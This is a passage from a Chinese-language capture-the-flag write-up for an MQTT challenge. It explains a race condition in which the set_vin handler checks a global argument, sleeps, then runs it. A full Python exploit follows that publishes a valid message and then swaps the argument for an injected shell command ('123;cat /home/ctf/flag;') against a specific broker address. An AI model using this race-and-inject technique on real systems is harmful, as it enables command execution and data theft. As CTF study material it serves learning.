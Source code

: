 在处理每条消息的时候，都会开一条新的线程，这意味着存在着临界资源；
在处理`set_vin`指令时，check后等待了2秒再继续运行命令，这意味着临界资源能被其他线程修改；
在check和运行命令时都从全局变量中获取内容，没有先复制到栈上；
摆明了就是条件竞争，先运行正确的`set_vin`指令，然后在sleep过程中，
再publish一条消息把`arg`修改掉，就可以成功注入命令了。

我就说怎么这么多人做出来呢，原来是这么简单的条件竞争，还是条件竞争做少了，
下次要有看到sleep就想到条件竞争的敏锐感。

## EXPLOIT

```python
import paho.mqtt.client as mqtt
import time
from json import dumps

broker = '39.96.190.95'
client_id = "python_client"
vin = 'XDGV56EK1R8B3W42B'
hashn = 0
for ch in vin:
    hashn = hashn * 0x1f + ord(ch)
auth = hex(hashn)[-8:]

def on_connect(client, userdata, flags, rc):
    print(f"Connected with result code {rc}")
    client.subscribe("diag")

def on_message(client, userdata, msg):
    print(f"{msg.topic}: {msg.payload.decode()}")

client = mqtt.Client(client_id)
client.on_connect = on_connect
client.on_message = on_message
client.connect(broker, 36985, 60)
cmd = {
    'auth': auth,
    'cmd': 'set_vin',
    'arg': '1234567890',
}
client.loop_start()
client.subscribe('diag/resp')
client.publish('diag', dumps(cmd))
time.sleep(1)
cmd['arg'] = '123;cat /home/ctf/flag;'
client.publish('diag', dumps(cmd))
try:
    while True:
        time.sleep(0.5)
except KeyboardInterrupt:
    pass
client.loop_stop()
client.disconnect()
```

![flag](assets/mqtt_flag.png)
